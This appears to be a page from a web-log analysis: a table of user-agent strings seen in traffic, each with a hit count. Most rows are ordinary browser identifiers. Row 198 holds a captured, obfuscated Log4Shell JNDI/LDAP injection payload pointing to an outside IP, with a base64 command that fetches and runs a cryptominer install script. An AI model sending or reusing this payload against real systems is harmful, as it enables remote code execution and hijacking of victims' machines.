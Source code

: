| 191 |                     1 | Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; GTB7.5; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSSDMC2.5.2219.1)                                                                                                                                                                                                                               |
| 192 |                     1 | Mozilla/5.0 (Linux; Android 4.4.2; en-us; SM-S902L Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Version/1.6 Chrome/28.0.1500.94 Mobile Safari/537.36                                                                                                                                                                                                                                               |
| 193 |                     1 | Mozilla/5.0 (Linux; U; Android 4.3; en-us; SCH-I545 Build/JSS15J) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30evme-launcher                                                                                                                                                                                                                                                     |
| 194 |                     1 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.94 Safari/537.36                                                                                                                                                                                                                                                                                   |
| 195 |                     1 | Mozilla/5.0 (Linux; Android 4.1; Galaxy Nexus Build/JRN84D) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.166 Mobile Safari/535.19                                                                                                                                                                                                                                                               |
| 196 |                     1 | Mozilla/5.0 (X11; CrOS x86_64 9765.85.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.123 Safari/537.36                                                                                                                                                                                                                                                                                         |
| 197 |                     1 | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Superbird/56.0.2924.87 Safari/537.36                                                                                                                                                                                                                                                                                            |
| 198 |                     1 | t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//46.8.226.196:3306/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL2Rvd25sb2FkLmMzcG9vbC5vcmcveG1yaWdfc2V0dXAvcmF3L21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBMQ19BTEw9ZW5fVVMuVVRGLTggYmFzaCAtcyA0ODZ4cXc3eXNYZEt3N1JrVnpUNXRkU2lEdEU2c294VWRZYUdhR0UxR29hQ2R2QkY3clZnNW9NWEw5cEZ4M3JCMVdVQ1pySnZkNkFITUZXaXBlWXQ1ZUZOVXg5cG1HTg==}') |
| 199 |                     1 | Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36                                                                                                                                                                                                                                                                                                   |
| 200 |                     1 | Mozilla/5.0 (Linux; Android 4.4.2; SAMSUNG-SM-T537A Build/KOT49H) AppleWebKit/537.36 (KHTML like Gecko) Chrome/35.0.1916.141 Safari/537.36                                                                                                                                                                                                                                                                 |
| 201 |                     1 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36                                                                                                                                                                                                                                                                                        |
| 202 |                     1 | Mozilla/5.0 (Symbian/3; Series60/5.2 NokiaX7-00/021.004; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/533.4 (KHTML, like Gecko) NokiaBrowser/7.3.1.21 Mobile Safari/533.4 3gpp-gba                                                                                                                                                                                                                |
| 203 |                     1 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36                                                                                                                                                                                                                                                                                                  |